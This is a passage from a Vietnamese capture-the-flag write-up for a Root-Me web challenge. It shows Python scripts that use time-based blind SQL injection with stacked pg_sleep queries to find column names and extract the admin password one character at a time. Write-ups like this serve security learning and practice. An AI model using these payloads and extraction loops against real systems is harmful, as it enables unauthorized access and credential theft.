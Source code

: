```py=
                    sys.stdout.write('\r' + 'Kết quả là: ' + column_name)
                    sys.stdout.flush()
                    break
                else:
                    sys.stdout.write('\r' + 'Kết quả là: ' +column_name + chr(j))
                    sys.stdout.flush()
        print("\n")

if __name__ == "__main__":
    columns_name()
```
- Ở đây mình chỉ duyệt các kí tự chữ cái in thường (97-122) cho nhanh , còn nếu muốn làm tổng quát hơn thì sẽ là (32-126)

Kết quả : 

![image](https://hackmd.io/_uploads/H1UeZ1prT.png)

Mình chỉ cần quan tâm 2 column là `username` và `password`. Admin có id=1, ta chỉ cần tìm kiếm với offset = 0 là sẽ ra.

![image](https://hackmd.io/_uploads/rythmkaHT.png)

Code dò password tương tự như trên thôi

```python=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
URL = "http://challenge01.root-me.org/web-serveur/ch40/"

def lenght_passwd(offset):
    for i in range(1, 100):
        payload = f"1;SELECT CASE WHEN ((SELECT LENGTH(password) FROM users limit 1 offset {offset})={i}) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"
        PARAMS = {"action": "member", "member": payload}
        http = requests.get(url=URL, params=PARAMS, verify=False, proxies=proxies)
        if int((http.elapsed.total_seconds())) >= 2:
            return i

def passwd():
    length = lenght_passwd(0)
    password = ''
    print(f"Password có {length} kí tự , đang dò password , loading ...  ")
    for i in range(1, length + 1):
        for j in range(32, 126):
            payload = f"1;SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users limit 1 offset 0),{i},1))={j}) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"
            PARAMS = {"action": "member", "member": payload}
            http = requests.get(url=URL, params=PARAMS, verify=False, proxies=proxies)
            if int((http.elapsed.total_seconds())) >= 2:
                password += chr(j)
                sys.stdout.write('\r' + 'Kết quả là: ' + password)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + 'Kết quả là: ' + password + chr(j))
                sys.stdout.flush()

if __name__ == "__main__":
    passwd()
```